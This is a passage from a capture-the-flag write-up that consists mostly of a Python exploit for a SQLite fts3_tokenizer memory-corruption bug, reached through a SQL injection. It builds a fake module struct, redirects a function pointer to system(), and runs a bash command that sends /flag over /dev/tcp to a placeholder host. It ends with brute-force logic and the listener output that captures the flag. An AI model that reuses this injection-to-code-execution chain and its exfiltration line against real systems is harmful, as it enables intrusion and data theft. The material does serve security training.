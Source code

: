 ```py
    fts_module_struct  = p64(shell_addr) # version
    fts_module_struct += p64(sqlbase + 0x000000000008d366) # xCreate
    fts_module_struct += p64(sqlbase + simple_destroy) # xDestroy
    fts_module_struct += p64(sqlbase + simple_open) # xOpen
    fts_module_struct += p64(sqlbase + simple_close) # xClose
    fts_module_struct += p64(sqlbase + simple_next) # xNext
    # 0x000000000008d366: mov rax, qword ptr [rax]; mov rdi, rax; call qword ptr [rax + 0x38];

    shell = b'bash -c "/flag > /dev/tcp/xx.xx.xx.xx/9090"\x00'
    shell = shell.ljust(0x38, b'\x00')
    shell += p64(system)

    # pwndbg> dq $rax
    # 000000000199b190     0000000000000000 deadbeefdeadbeef
    # 000000000199b1a0     00007fd8b5a07c40 00007fd8b5a0eb40
    # 000000000199b1b0     00007fd8b59fd080 00007fd8b5a10b50
    # 000000000199b1c0     4343434343434343 20632d2068736162
    #                                       ^ ---- our shell starts here
    # 000000000199b1d0     3e2067616c662f22 63742f7665642f20
    # 000000000199b1e0     33312e3330312f70 2f39312e36352e33
    # 000000000199b1f0     0000002230393039 0000000000000000
    # 000000000199b200     00000000004022d0 4444444444444444

    payload  = b"asd';"
    payload += b"SELECT replace(hex(zeroblob(10000)), '00', x'4242424242424242%b4343434343434343%b4444444444444444');" % (hexlify(fts_module_struct), hexlify(shell))
    payload += b"select fts3_tokenizer('exploit', x'%b');" % hexlify(p64(fts_module_struct_addr))
    payload += b"create virtual table kok using fts3(tokenize='exploit');"
    payload += b"-- "
    admin(payload.replace(b" ", b"/**/"))

def exploit():
    for off in range(0, 0x1000, 8):
        heap_base, sqlbase = read_map()
        print("[!] heap %x" % heap_base)
        print("[!] libsqlite3.so %x" % sqlbase)
        fire(heap_base, sqlbase, 0x45190 + off)

exploit()

# ijctf{Nah...sqlite_B0F_1s_H4rd!}
```

Since the offset on the server might be different I need to brute force a little and after that we just need to spawn a listener and we will be greeted by the flag.

```
Listening on [0.0.0.0] (family 0, port 9090) Connection from 10.169.87.34.bc.googleusercontent.com 55242 received!
ijctf{Nah...sqlite_B0F_1s_H4rd!}
```
